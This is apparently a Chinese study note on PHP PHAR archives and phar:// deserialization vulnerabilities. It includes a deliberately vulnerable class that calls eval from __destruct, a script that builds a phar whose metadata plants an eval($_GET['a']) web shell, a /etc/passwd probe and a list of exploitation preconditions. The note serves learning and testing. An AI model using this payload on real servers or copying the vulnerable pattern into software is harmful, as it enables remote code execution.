





---
tags:
  - phar
  - PHP
  - serialize
Date: 2026-02-04
---
# 什么是phar?
一个php应用程序往往是由多个文件构成的，如果能把他们集中为一个文件来分发和运行是很方便的，这样的列子有很多，比如在window操作系统上面的安装程序、一个jquery库等等，为了做到这点php采用了phar文档文件格式，这个概念源自java的jar，但是在设计时主要针对 PHP 的 Web 环境，与 JAR 归档不同的是Phar归档可由 PHP 本身处理，因此不需要使用额外的工具来创建或使用，使用php脚本就能创建或提取它。phar是一个合成词，由PHP和 Archive构成，可以看出它是php归档文件的意思(简单来说phar就是php压缩文档，不经过解压就能被 php 访问并执行)
phar文件本质上是一种压缩文件，会以序列化的形式存储用户自定义的meta-data；当受影响的文件操作函数调用phar文件时，会自动反序列化meta-data内的内容

JAR是开发Java程序一个应用，包括所有的可执行、可访问的文件，都打包进了一个JAR文件里，使得部署过程十分简单。
==like a Java JAR,but foe PHP==
==PHAR("PhpARchive")==是PHP里类似于JAR的一种打包文件
对于PHP<mark style="background: #FF5582A6;">5.3</mark>或更高版本，Phar后缀文件是默认开启支持的，可以直接使用它。

文件包含：phar伪协议，可读取.phar文件

# phar结构
stub phar文件标识，格式为xxx<?php xxx;__HALT_COMPiLER();?>；（头部信息）
manifest压缩文件的属性等信息，以序列化存储；
contents压缩文件的内容；
signature签名，放在文件末尾；

Phar协议解析文件时，会自动触发对<mark style="background: #FFB8EBA6;">manifest字段</mark>的序列化字符串进行==反序列化==
因此，在有destruct和wakeup等函数的时候就可以利用phar反序列化漏洞

php中一些常见的流包装器如下：
- file:// — 访问本地文件系统，在用文件系统函数时默认就使用该包装器
- http:// — 访问 HTTP(s) 网址
- ftp:// — 访问 FTP(s) URLs
- php:// — 访问各个输入/输出流（I/O streams）
- zlib:// — 压缩流
- data:// — 数据（RFC 2397）
- glob:// — 查找匹配的文件路径模式
- phar:// — PHP 归档
- ssh2:// — Secure Shell 2
- rar:// — RAR
- ogg:// — 音频流
- expect:// — 处理交互式的流

## phar反序列化漏洞

漏洞成因：phar存储的meta-data信息以序列化方式存储，当文件操作函数通过phar://伪协议解析phar文件时就会将数据反序列化
自动对manifest字段的序列化字符串进行反序列化



简易漏洞
```php
<?php  
highlight_file(__FILE__);  
error_reporting(0);  
class Testobj  
{  
    var $output="echo 'ok';";  
    function __destruct()  
    {  
        eval($this->output);  
    }  
}  
if(isset($_GET['filename']))  
{    $filename=$_GET['filename'];    var_dump(file_exists($filename));  
}  
?>
```

*函数file_exists判断文件是否存在*
例如
```php
?filename=/etc/passwd
```
返回
```php
bool(true)
```

源码里面出现了反序列化一定调用的destruct函数，如何调用phar漏洞呢？

### 生成phar文件
```php
<?php  
highlight_file(__FILE__);  
class Testobj  
{  
    var $output='';  
}  
  
@unlink('test.phar');   //删除之前的test.par文件(如果有)  
$phar=new Phar('test.phar');  //创建一个phar对象，文件名必须以phar为后缀  
$phar->startBuffering();  //开始写文件  
$phar->setStub('<?php __HALT_COMPILER(); ?>');  //写入stub  
$o=new Testobj();  
$o->output='eval($_GET["a"]);';  //直接提交字符串
$phar->setMetadata($o);//写入meta-data  
$phar->addFromString("test.txt","test");  //添加要压缩的文件  
$phar->stopBuffering();  
?>
```



xxd文件后看到phar的构成



使用phar://伪协议，读取phar文件
利用构造的`eval($_GET["a"]);`直接提交参数赋值给a执行，注意这里外面嵌套的eval，一是定义了a这个变量，外面再次用eval执行了提交的内容

并且，只要是phar对应的内容结构，即使后缀名不是phar也能执行，例如zip，png等





# 总结
### 前提条件
- php.ini中设置为phar.readonly=Off
- php version>=5.3.0
- phar文件要能够上传到服务器端
- 要有可用的魔术方法作为“跳板”
- 文件操作函数的参数可控，且:、/、phar等特殊字符没有被过滤